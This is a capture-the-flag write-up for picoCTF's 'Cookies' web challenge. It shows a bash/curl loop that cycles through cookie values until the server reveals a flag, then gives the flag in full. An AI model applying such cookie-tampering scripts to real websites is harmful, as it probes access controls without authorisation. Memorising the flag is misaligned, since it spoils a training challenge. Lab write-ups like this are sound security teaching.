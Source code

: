 # Cookies

## Overview

* Points: 40
* Category: Web Exploitation
* Author: Madstacks

## Description
Who doesn't love cookies? Try to figure out the best one. http://mercury.picoctf.net:54219/

## Hints

1. None!

## Approach

1. The webpage contains a form with a placeholder value. If we input "snickerdoodle" (as suggested by the placeholder value) we get a page containing the following message: "That is a cookie! Not very special though...". If we try to input a different value, the message will say: "That doesn't appear to be a valid cookie."
2. In the DevTools we can see a cookie called "name" with a set value of -1, which will be sent to the server when we use the form. As the description suggests, we have to find the best value to sent to the server!
3. To achieve this, we can write a quick [bash script](cookie_baker.sh) using the cURL tool to send a homemade cookie (nice joke, am I right?)
```bash
for i in {1..30}; do
        echo "Testing with \"Cookie: name=$i\""
        contents=$(curl -s http://mercury.picoctf.net:54219/ -H "Cookie: name=$i; Path=/" -L)
        echo $contents | grep "pico"
done
```
4. As we can see by the following output given by the script, 18 was the correct value:
```bash
Testing with "Cookie: name=1"
Testing with "Cookie: name=2"
Testing with "Cookie: name=3"
Testing with "Cookie: name=4"
Testing with "Cookie: name=5"
Testing with "Cookie: name=6"
Testing with "Cookie: name=7"
Testing with "Cookie: name=8"
Testing with "Cookie: name=9"
Testing with "Cookie: name=10"
Testing with "Cookie: name=11"
Testing with "Cookie: name=12"
Testing with "Cookie: name=13"
Testing with "Cookie: name=14"
Testing with "Cookie: name=15"
Testing with "Cookie: name=16"
Testing with "Cookie: name=17"
Testing with "Cookie: name=18"
<!DOCTYPE html> <html lang="en"> <head> <title>Cookies</title> <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet"> <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet"> <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script> <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script> </head> <body> <div class="container"> <div class="header"> <nav> <ul class="nav nav-pills pull-right"> <li role="presentation"><a href="/reset" class="btn btn-link pull-right">Home</a> </li> </ul> </nav> <h3 class="text-muted">Cookies</h3> </div> <div class="jumbotron"> <p class="lead"></p> <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}</code></p> </div> <footer class="footer"> <p>&copy; PicoCTF</p> </footer> </div> </body> </html>
#the flag is near the end of this HTML code
Testing with "Cookie: name=19"
Testing with "Cookie: name=20"
Testing with "Cookie: name=21"
...
```

## Flag

<details>
<summary>Click to view the flag</summary>

__picoCTF{3v3ry1_l0v3s_c00k135_96cdadfd}__
</details>